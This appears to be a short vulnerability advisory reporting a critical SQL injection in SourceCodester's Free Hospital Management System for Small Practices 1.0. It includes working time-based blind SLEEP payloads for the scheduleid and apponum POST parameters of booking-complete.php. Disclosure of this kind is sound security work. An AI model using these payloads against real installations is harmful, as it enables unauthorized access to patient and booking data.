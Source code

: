 
https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html

## Free Hospital Management System for Small Practices 1.0
A vulnerability classified as critical has been found in SourceCodester Free Hospital Management System for Small Practices 1.0. Affected is an unknown function of the file \vm\patient\booking-complete.php

The manipulation of the argument $userid,$apponum,$scheduleid, leads to sql injection

```
Parameter: scheduleid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: booknow=1&apponum=1&scheduleid=1 AND (SELECT 3799 FROM (SELECT(SLEEP(5)))LBFS)&date=2023-07-09

Parameter: apponum (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: booknow=1&apponum=1 AND (SELECT 6268 FROM (SELECT(SLEEP(5)))nFTS)&scheduleid=1&date=2023-07-09
```
![Alt text](image-1.png)
![Alt text](image.png)